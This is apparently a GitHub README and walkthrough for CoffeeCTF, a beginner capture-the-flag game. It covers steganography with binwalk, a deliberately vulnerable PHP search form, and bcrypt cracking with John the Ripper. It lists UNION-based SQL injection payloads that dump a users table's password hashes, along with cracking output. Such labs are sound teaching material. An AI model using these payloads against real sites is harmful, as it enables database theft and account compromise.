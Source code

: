 # What's this?

Just an entry level CTF-like game where contestants have to toy around some stegano, baby SQLi and basic password cracking.

![Image presented to contestants](https://github.com/aiglebleu/CoffeeCTF/blob/master/chal_1/image/coffee.jpg)

## www
Vulnerable php application.

## Images
* test.jpg : original presentation image
* qr-code.png : file to hide
* archive.zip : zipped qr-code.png
* coffee.jpg : concatenated test.jpg + archive.zip

## Walkthrough
The contestants are only presented with the coffee.jpg. They gotta find the hidden content. They might guess they have to unzip it; but there's a way to know. Just pass the image to binwalk and he'll tell you.

```
filedesless@AirBook:~/src/CoffeeCTF/image$ binwalk coffee.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
5353049       0x51AE59        Zip archive data, at least v2.0 to extract, compressed size: 285870, uncompressed size: 339907, name: qr-code.png
5639069       0x560B9D        End of Zip archive
```

Now they can simply unzip the file, follow the qr-code (check out zbar for this) and get on the vulnerable app. First step here is to detect the database engine used.
There's a search form clearly waiting to be exploited right on the landing page.

* `' union select 1,2, @@version;-- ` doesn't help.
* `' union select 1,2, sqlite_version();-- ` shows it's running SQLite3
* `' union select 1, name, sql from sqlite_master;-- ` shows a delightful users table.
* `' union select 1, username, password from users;-- ` gives away the password hashes.

As hinted in the page, those are BCrypt hashes. It would take forever to crack one of these if it weren't that the password is stupidly weak. Now is the time to load the hashes in a text file and pass it to john which should crack it fairly quickly using the default wordlist. Ex:

```
filedesless@AirBook:~$ john hash.txt 
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 0.19% 2/3 (ETA: 13:30:54) 0g/s 36.09p/s 36.09c/s 36.09C/s purple..rebecca
passwd           (?)
1g 0:00:01:10 DONE 2/3 (2017-11-26 12:30) 0.01425g/s 36.05p/s 36.05c/s 36.05C/s passwd..phish
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

